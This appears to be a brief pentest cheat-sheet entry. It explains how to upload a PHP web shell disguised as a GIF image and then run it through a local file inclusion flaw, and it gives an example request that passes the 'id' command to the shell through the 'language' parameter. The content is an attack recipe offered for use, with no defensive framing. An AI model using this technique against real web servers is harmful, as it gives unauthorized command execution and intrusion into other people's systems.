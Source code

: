 
upload a php shell as image type: shell.gif
find out where its stored in server file system via LFI: and query it.
```
index.php?language=/user_images/shell.gif&cmd=id
```
